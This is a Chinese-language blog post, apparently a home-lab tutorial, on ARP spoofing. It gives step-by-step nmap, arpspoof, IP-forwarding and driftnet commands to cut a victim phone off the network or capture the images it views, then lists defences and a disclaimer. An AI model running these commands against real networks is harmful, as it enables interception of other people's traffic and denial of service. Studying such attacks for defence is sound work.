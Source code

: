 ```yaml
---
title: ARPspoofing
author: smona
published: true
date: '2016-04-17 10:08:03.000'
layout: post
---
```


**科普**
----
ARP攻击和欺骗是网络安全中比较经典的流量截取手段，特别是适合内网攻击。整个攻击原理简单举例来说就是作为攻击方A，利用网络层的ARP协议不安全性（估计ARP协议设计时候认为网络上IP和MAC都是**很诚实地**对应），伪造应答包（包含网关IP和攻击方的MAC地址），发送给受害方B，B通过接受到攻击方发送的ARP应答包，在自己的ARP缓存表中写入了虽然是网关的IP（前提是受害方B之前没有绑定过网关IP和其对应正确的MAC，不然ARP欺骗就没有用了），但是对应的MAC却是属于攻击方A的MAC，然后受害方B在浏览网络的时候，所有流量必须经过攻击方A，通过这种手段，攻击方A可以捕获受害方的上网流量。

**说明**
--
攻击方A：LinuxMint   IP：192.168.3.100  
受害方B：某安卓手机  IP：192.168.3.101  --理论上能基于ARP协议上网的设备都可以  
网关	：192.168.3.1 
工具：  
①nmap.--主机发现  
②dsniff.--ARP欺骗  
③driftnet.--图片截取  
P.s.这三个工具在软件源里面都有，sudo apt-get install  packagename一下就好了，当然如果是用Kali的就不用麻烦下载安装了，直接用就好了
本次实验目的：  
㈠对受害方B进行断网攻击  
㈡进行受害方B所浏览图片的截取.  

**ARP欺骗**
---------
**Ⅰ.首先查看自己的网络情况**
(这里是linux口令，windows是ipconfig)

```
ifconfig
```
找出本机使用的网卡   IP 子网掩码（subnet mask）
这里攻击方A的网卡：wlan0    IP：192.168.3.100  子网掩码：255.255.255.0 
通过上面我们就可以知道我们属于的局域网的CIDR：192.168.3.100/24

**Ⅱ.nmap主机发现**

```
nmap -sn 192.168.3.100/24
```
当然因为现在是实验，所以你会发现主机发现结果是有 “3 hosts up”，分别是网关，攻击方A和受害方B。非实验环境下还需要抓包分析目标机行为得出其对应IP地址，这里就不赘述。
这一步我们得出了局域网中的主机存活情况

**Ⅲ.ARP欺骗**
先受害方B到网关

```
arpspoof -i wlan0 -t 192.168.3.101  192.168.3.1
```

在网关到受害方B

```
arpspoof -i wlan0 -t 192.168.3.1  192.168.3.101
```
因为处于安全性考虑linux默认是关闭包转发的，所以这时候完成欺骗后，因为没有攻击机的包转发，受害方B是无法上网的，这就是所谓的ARP断网攻击，显然这只是让受害方B无法上网，我们还没有达成目标，更重要的是我们想知道受害方B所浏览的图片情况。这里我们需要打开linux的包转发功能。

**打开Linux包转发**
----------------

**a.登陆root权限**
（当然你要不嫌麻烦这步可以省略，只不过你后面要不断用sudo  还要打密码）
```
sudo su
```
**b.临时生效包转发**
cat命令查看现在ip_forward值
```
cat  /proc/sys/net/ipv4/ip_forward
0
```
输出0，表示包转发关闭，一般linux都是默认关闭的。

```
echo "1">> /proc/sys/net/ipv4/ip_forward
```

```
cat /proc/sys/net/ipv4/ip_forward
1
```
输出1，表示包转发开启.
以上提到的方法只是暂时开启，重启或者其他一些操作会让值变回0，要永久生效的办法请自行百度。
到这里真正完成ARP欺骗。

**图片抓取**
------

```
driftnet -i wlan0 -a -d /home/smona/桌面/pic
```
其中 -a 是后台，意思是不打印到显示框；而-d 是捕获图片地址路径。
受害方B所浏览的所有图片内容会一一保存到你所指定的目录内。
	

**防范**
----
ARP欺骗的防范并没有特别有效的办法，一般来说就是一下几种：

```
①arp -s 绑定网关IP和其正确的MAC，保持静态；
②arp -a 查看本机arp表发现ARP欺骗行为；
③通过ARP on,ARP wath，XARP 等工具检测ARP欺骗行为；

```
安全意识：
**个人方面**：用户在公共场合尽量不进行重要事务的处理，如若有必要尽量使用加密的方法，比如最简单的能用https的网址用https，警惕可疑的wifi等等；
**网关等服务方方面**：网关等提供服务方的配合


**免责声明**
----
本博文提供方法仅仅用来学习ARP协议以及对ARP欺骗的深入理解
不提倡用于侵犯隐私等不正当行为
最后感谢网路上的各种ARP知识和教学的帖子分享，让我受益匪浅，同样我也欢迎大家在评论指出错误和分享经验~
